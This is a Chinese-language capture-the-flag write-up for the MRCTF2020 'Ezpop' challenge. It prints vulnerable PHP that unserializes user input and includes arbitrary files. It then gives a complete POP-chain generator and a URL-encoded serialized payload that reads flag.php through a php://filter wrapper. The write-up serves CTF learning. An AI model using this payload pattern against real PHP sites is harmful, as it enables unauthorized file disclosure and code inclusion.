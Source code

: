 ```yaml
---
layout: mypost
title: "[MRCTF2020]Ezpop"
categories: [ctf_wp]
---
```


（emmmm 题目就很明显了，就是一个 pop 链的构造，不懂的可以先去看一下这篇文章--正 XOR 反序列化）

1.直接来看一下源码

```
Welcome to index.php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

看一眼，源码是有三个类，做这种 pop 链的题，我感觉吧，一定要记住以下几件事（引用一下这篇文章--正 XOR 反序列化里的东西），不要一看见这题就害怕

```
1.构造pop链就像是python或者c++里面类的继承一样，说白了就是让一个a实例化的类（对象）里面的属性等于另一个b实例化的类（对象），这样就可以成功的让a调用b里面的方法和属性
2.在进行序列化的时候，实际上也是只能去序列化属性，方法是不能被序列化的，然后当反序列化的时候属性和魔术方法一结合，就能实现pop链条，这个当然在构造pop链的时候就可以加一些调试的语句去看这个pop链最终能不能去执行危险函数
3.当构造pop链的时候，有人说能不能直接不写这些魔术方法（当然魔术方法要是只是写一些输出的话肯定不用写，但是涉及到一些对象与对象的关系肯定要写出来），就像刚刚我说的那样（在进行序列化的时候，实际上也是只能去序列化属性，方法是不能被序列化的，然后当反序列化的时候属性和魔术方法一结合）,但是如果在构造的时候都不去写这些魔术方法，那么这些对象与对象之间都串不起来，即都生成不了序列化之后的字符串，如果你不嫌麻烦，当然也可以自己去手工的去写一些将两个对象联系起来的语句，但这很多情况下会出问题，因为最终生成序列化后的字符串，还是要经过题目或者是代码里面的一些魔术方法去串起来的，那为什么不一开始在生成pop链的时候就去用题目或者是代码里面给出的现成的把对象串起来的方法呢？
4.一般都是序列化一个对象，然后要从这个对象与其他对象连接起来，所以选择一个合适的序列化对象也是很关键的一步
5.一般分析的时候是先找危险函数，然后一步一步倒着推出要先序列化哪个类，然后真正反序列化的时候又是正着走的
```

这个题就是三个类

```
Modifier
Show
Test
```

2.咱们一个一个看，首先看 Modifier 这个类

```
class Modifier {
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}
```

这个首先定义了一个 append 方法，毫无疑问这个就是危险函数，是个文件包含，首先想到伪协议，然后还有个\_\_invoke 魔术方法（这个方法就是把对象当成一个函数的时候就会被调用），这个方法会去调用 append 方法，所以接下来就看谁能够触发这个魔术方法，继续往下看，看这个 Show 类

```
class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}
```

这个有个\_\_wakeup 魔术方法还有\_\_toString()这个魔术方法，而且这个\_\_wakeup 魔术方法里面有这个正则匹配，这些特征就是这种 pop 题的老熟人，看多了自然理解我在说什么，或者不懂的先去康康我的那篇文章--正 XOR 反序列化，里面会讲，总而言之就是 wakeup 有正则，给正则传个对象触发 toString，然后再看一下这个 Test 类

```
class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}
```

这里有个\_\_get()方法，我们知道(当访问类中的私有属性或者是不存在的属性，触发 get 魔术方法)，而哪里调用了不存在的属性呢，很明显是中间 Show 这个类，想办法让它调用不存在的 source 属性

3.okok 那这一下子就连起来了，大致的一个利用流程是从 Show 入手再到 Test，最后抵达 Modifier

```
反序列化->调用Show类中魔术方法__wakeup->preg_match()函数对Show类的属性source处理->调用Show类中魔术方法__toString->返回Show类的属性str中的属性source(此时这里属性source并不存在)->调用Test类中魔术方法__get->返回Test类的属性p的函数调用结果->调用Modifier类中魔术方法__invoke->include()函数包含目标文件(flag.php)
```

然后就想办法把各个对象联系起来就好了，下面给出我的 payload

```
<?php
class Modifier {
    protected  $var="php://filter/read=convert.base64-encode/resource=flag.php";
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show
{
    public $source;
    public $str;

    public function __construct($file = "index.php")
    {
        $this->source = $file;
        echo 'Welcome to ' . $this->source . "<br>";
    }

    public function __toString()
    {

        return $this->str->source;
    }

    public function __wakeup()
    {
        if (preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }

}
$a = new Modifier();
$b = new Show();
$c = new Test();
$b->source = $b;
$b->source->str = $c;
$c->p = $a;
echo urlencode(serialize($b));
```

比如上面这个代码里面的

```
$b->source = $b;
$b->source->str = $c;
$c->p = $a;
```

这个就是用来想办法去把各个对象给联系起来，不联系的话可能就是只有 Test 这个类里面的方法和属性，就像我上面说的那几点一样

这里还有个细节就是，如果不加 urlencode（）这个函数，序列化会有不可见字符，因为 Modifier 类中的属性 var 为 protected，如果在序列化后的字符串里直接改肯定会出错，所以先编码一下可以避免这个问题

最终的 payload 如下

```
?pop=O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Br%3A1%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7D
```

4.然后得到 base64 编码的文件源码解密即可

![](image-20231102132843707-1024x103.png)

![](image-20231102132855536-1024x471.png)

欧克那这道题就到这里

Finish!!!